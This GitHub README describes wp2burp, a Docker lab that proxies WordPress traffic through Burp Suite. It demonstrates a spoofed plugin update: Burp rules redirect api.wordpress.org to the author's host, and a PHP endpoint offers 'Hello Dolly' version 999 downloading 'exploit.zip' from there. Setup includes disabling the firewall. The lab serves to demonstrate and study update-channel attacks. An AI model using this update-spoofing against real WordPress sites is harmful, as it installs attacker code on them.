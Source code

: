 # wp2burp

Intercept WordPress requests with Burp Suite

---

Allows you to deploy WordPress instance in Docker, see all internal requests to WordPress API in Burp Suite, intercept requests & responses. 

Especially useful to demonstrate how the plugin update work. In the example, we will spoof the update for the "Hello Dolly" WordPress Plugin, and instead of the official one, malicious version 999 hosted on our server will be downloaded & installed.

## Installation

1) Open `Burp Suite` and edit the `Proxy Listener` to listen on `All Interfaces`
    - _Proxy > Options > Proxy Listeners > Edit > All Interfaces > OK_

2) Edit `docker-compose.yml` and change IP of the `Proxy Listener`
    - _- "burp:10.10.10.254" # Burp Suite proxy IP_

3) Make sure that `Firewall` is not blocking access to `Proxy Listener`
    - _$ sudo ufw disable_

4) Run `Docker`, install `WordPress` and `Burp Suite` certificate
```bash
$ git clone https://github.com/vavkamil/wp2burp.git
$ cd wp2burp/
$ sudo chmod +x bin/install-wp.sh
$ sudo chmod +x bin/burp.sh
$ docker-compose up -d --build
$ docker-compose run --rm --user 33:33 wp-cli install-wp
$ docker exec -ti wp2burp_wordpress_1 /var/www/html/burp.sh
```

4) Visit the [WordPress instance](http://127.0.0.1:31337/wp-login.php) and login with `admin:admin`
    - _You should see all internal WordPress requests in Burp HTTP history tab_

## Usage

1) Open `Burp Suite` and edit the `Proxy Listener` to `redirect all requests received by listener`
    - _Proxy > Options > Proxy Listeners > Edit > Request handling_
      - _Redirect to host: xss.vavkamil.cz_
      - _Redirect to port: 443_
      - _Force use of TLS_
2) Edit `Match and Replace` to spoof the `Host` header
    - _Proxy > Options > Match and Replace > Add_
      - _Type: Request header_
      - _Match: api.wordpress.org_
      - _Replace: xss.vavkamil.cz_
3) Create route on `your web server` to respond to `plugin update checks`:
```bash
$ cat plugins/update-check/1.1/index.php

<?php
  header('Access-Control-Allow-Origin: *');
  header('Content-type: application/json');

  $response = array(
    "plugins" => array(
      "hello.php" => array(
        "new_version" => "999",
        "package" => "https://xss.vavkamil.cz/plugins/exploit.zip",
      ),
    ),
  );

  echo json_encode($response); 
?>
```

You should be able to intercept the WordPress requests asking for available plugin updates and respond with a spoofed response.

## Example

### Request

```
POST /plugins/update-check/1.1/ HTTP/2
Host: api.wordpress.org
User-Agent: WordPress/5.3; http://127.0.0.1:31337/
Accept: */*
Accept-Encoding: gzip, deflate
Referer: https://api.wordpress.org/plugins/update-check/1.1/
Connection: close
Content-Length: 1778
Content-Type: application/x-www-form-urlencoded
Expect: 100-continue

plugins=%7B%22plugins%22%3A%7B%22akismet%5C%2Fakismet.php%22%3A%7B%22Name%22%3A%22Akismet+Anti-Spam%22%2C%22PluginURI%22%3A%22https%3A%5C%2F%5C%2Fakismet.com%5C%2F%22%2C%22Version%22%3A%224.1.3%22%2C%22Description%22%3A%22Used+by+millions%2C+Akismet+is+quite+possibly+the+best+way+in+the+world+to+%3Cstrong%3Eprotect+your+blog+from+spam%3C%5C%2Fstrong%3E.+It+keeps+your+site+protected+even+while+you+sleep.+To+get+started%3A+activate+the+Akismet+plugin+and+then+go+to+your+Akismet+Settings+page+to+set+up+your+API+key.%22%2C%22Author%22%3A%22Automattic%22%2C%22AuthorURI%22%3A%22https%3A%5C%2F%5C%2Fautomattic.com%5C%2Fwordpress-plugins%5C%2F%22%2C%22TextDomain%22%3A%22akismet%22%2C%22DomainPath%22%3A%22%22%2C%22Network%22%3Afalse%2C%22RequiresWP%22%3A%22%22%2C%22RequiresPHP%22%3A%22%22%2C%22Title%22%3A%22Akismet+Anti-Spam%22%2C%22AuthorName%22%3A%22Automattic%22%7D%2C%22hello.php%22%3A%7B%22Name%22%3A%22Hello+Dolly%22%2C%22PluginURI%22%3A%22http%3A%5C%2F%5C%2Fwordpress.org%5C%2Fplugins%5C%2Fhello-dolly%5C%2F%22%2C%22Version%22%3A%221.7.2%22%2C%22Description%22%3A%22This+is+not+just+a+plugin%2C+it+symbolizes+the+hope+and+enthusiasm+of+an+entire+generation+summed+up+in+two+words+sung+most+famously+by+Louis+Armstrong%3A+Hello%2C+Dolly.+When+activated+you+will+randomly+see+a+lyric+from+%3Ccite%3EHello%2C+Dolly%3C%5C%2Fcite%3E+in+the+upper+right+of+your+admin+screen+on+every+page.%22%2C%22Author%22%3A%22Matt+Mullenweg%22%2C%22AuthorURI%22%3A%22http%3A%5C%2F%5C%2Fma.tt%5C%2F%22%2C%22TextDomain%22%3A%22%22%2C%22DomainPath%22%3A%22%22%2C%22Network%22%3Afalse%2C%22RequiresWP%22%3A%22%22%2C%22RequiresPHP%22%3A%22%22%2C%22Title%22%3A%22Hello+Dolly%22%2C%22AuthorName%22%3A%22Matt+Mullenweg%22%7D%7D%2C%22active%22%3A%5B%5D%7D&translations=%5B%5D&locale=%5B%5D&all=true
```

### Response

```
HTTP/2 200 OK
Date: Sun, 10 Oct 2021 19:13:57 GMT
Content-Type: application/json
Access-Control-Allow-Origin: *
Cf-Cache-Status: DYNAMIC
Expect-Ct: max-age=604800, report-uri="https://report-uri.cloudflare.com/cdn-cgi/beacon/expect-ct"
Report-To: {"endpoints":[{"url":"https:\/\/a.nel.cloudflare.com\/report\/v3?s=NpTdm3rT6Twj%2FvltPnM2Lb627HEIH4tcXE%2FTqUW0ZSqB7QQlDef1ttcmizy5cx2qcGwpKR%2BmudmYA0tp0G5QVEJ8G4%2Fu%2Bh07GKDQfbBYlJext3lDiKXRNB0EHIi3lD35oLk%3D"}],"group":"cf-nel","max_age":604800}
Nel: {"success_fraction":0,"report_to":"cf-nel","max_age":604800}
Server: cloudflare
Cf-Ray: 69c22b4018442794-PRG
Alt-Svc: h3=":443"; ma=86400, h3-29=":443"; ma=86400, h3-28=":443"; ma=86400, h3-27=":443"; ma=86400

{"plugins":{"hello.php":{"new_version":"999","package":"https:\/\/xss.vavkamil.cz\/plugins\/exploit.zip"}}}
```

### Screenshot

![](screenshot.png)

## Uninstall

```bash
$ docker-compose down
$ docker volume rm dvwp-master_db
$ docker volume rm dvwp-master_wp
```
